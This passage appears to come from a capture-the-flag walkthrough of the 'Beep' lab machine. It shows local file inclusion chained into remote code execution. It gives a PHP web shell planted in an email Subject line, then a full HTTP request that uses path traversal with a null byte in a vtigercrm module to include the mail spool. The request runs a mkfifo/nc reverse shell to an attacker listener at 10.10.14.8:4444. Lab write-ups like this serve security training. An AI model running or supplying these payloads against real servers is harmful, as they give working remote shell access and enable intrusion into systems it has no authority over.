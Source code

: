 ```
Subject: Testing with LFI
<?php echo system($_REQUEST['cmd']);?>

.
250 2.0.0 Ok: queued as 61360C0003
```

Following to that, I verify that the email has been sent and i can perform RCE
![](Beep_LFI2RCE_1.png)

Great now we can grab the shell for the user `asterisk`

```
GET /vtigercrm/modules/com_vtiger_workflow/sortfieldsjson.php?module_name=..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fvar/mail/asterisk%00&cmd=rm%20/tmp/f;mkfifo%20/tmp/f;cat%20/tmp/f|/bin/sh%20-i%202>%261|nc%2010.10.14.8%204444%20>/tmp/f HTTP/1.1
```

Run the NC on kali